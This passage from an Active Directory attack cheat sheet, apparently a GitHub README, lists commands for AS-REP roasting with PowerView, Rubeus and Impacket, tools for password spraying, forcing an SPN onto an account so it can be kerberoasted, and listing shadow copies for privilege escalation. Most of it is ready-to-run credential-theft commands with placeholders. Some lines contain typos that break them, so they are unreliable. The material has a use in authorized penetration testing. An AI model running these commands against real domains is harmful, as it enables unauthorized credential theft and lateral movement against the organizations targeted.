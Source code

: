   And finally execute the attack using the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) tool.
  ```
  #Get a spesific Accounts hash:
  Get-ASREPHash -UserName <UserName> -Verbose

  #Get any ASREPRoastable Users hashes:
  Invoke-ASREPRoast -Verbose
  ```

  Using Rubeus:
  ```
  #Trying the attack for all domain users
  .\Rubeus.exe asreproast /outfile:<NameOfTheFile>
  ```

  Using Impacket:
  ```
  #Trying the attack for the specified users on the file
  python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>
  ```
### Password Spray Attack
  If we have harvest some passwords by compromising a user account, we can use this method to try and exploit password reuse 
  on other domain accounts.

  **Tools:**
  - [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
  - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
  - [Spray](https://github.com/Greenwolf/Spray)
### Force Set SPN

*WUT IS DIS ?:
If we have enough permissions -> GenericAll/GenericWrite we can set a SPN on a target account, request a TGS, then grab its hash and kerberoast it.*
 
- PowerView:
 ```
#Check for interesting permissions on accounts:
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
  
#Check if current user has already an SPN setted:
Get-DomainUser -Identity <UserName> | select serviceprincipalname
  
#Force set the SPN on the account:
Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
```
- AD Module:
```
#Check if current user has already an SPN setted
Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName
  
#Force set the SPN on the account:
Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
```
Finally use any tool from before to grab the hash and kerberoast it!
### Abusing Shadow Copies
If you have local administrator access on a machine try to list shadow copies, it's an easy way for Privilege Escalation.
```
#List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows
  
#List shadow copies using diskshadow
diskshadow list shadows all
  
#Make a symlink to the shadow copy and access it
```